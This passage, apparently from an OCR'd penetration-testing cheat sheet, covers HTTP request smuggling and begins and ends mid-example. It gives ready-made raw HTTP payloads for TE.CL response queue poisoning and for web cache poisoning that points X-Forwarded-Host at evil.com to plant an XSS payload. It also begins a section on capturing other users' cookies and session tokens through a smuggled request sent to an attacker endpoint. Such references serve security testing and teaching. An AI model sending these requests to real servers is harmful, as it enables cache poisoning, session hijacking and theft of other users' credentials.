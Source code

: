         data=
        ```
      - The next user's request will be appended to the "data=" parameter
    
    - **Response queue poisoning (TE.CL)**
      - Cause the back-end to respond to a smuggled request, shifting all responses
      - Example:
        ```http
        POST / HTTP/1.1
        Host: vulnerable-website.com
        Content-Length: 3
        Transfer-Encoding: chunked

        8
        GET /404 HTTP/1.1
        Host: vulnerable-website.com

        0

        ```
      - Next user will receive a 404 response to their legitimate request
    
    - **Web cache poisoning**
      - Combine request smuggling with web cache poisoning
      - Smuggle a request that causes a cacheable response
      - Example:
        ```http
        POST / HTTP/1.1
        Host: vulnerable-website.com
        Content-Length: 93
        Transfer-Encoding: chunked

        0

        GET /home HTTP/1.1
        Host: vulnerable-website.com
        X-Forwarded-Host: evil.com

        ```
      - This might poison the cache entry for /home with an XSS payload
  
  - **Session hijacking and user compromising**
    
    - **Capturing user cookies and session tokens**
      - Smuggle a request that sends cookies to an attacker-controlled endpoint
      - Example:
        ```http
        POST / HTTP/1.1
        Host: vulnerable-website.com
        Content-Length: 150
        Transfer-Encoding: chunked

        0

        GET / HTTP/1.1
        Host: vulnerable-website.com
        Content-Length: 50
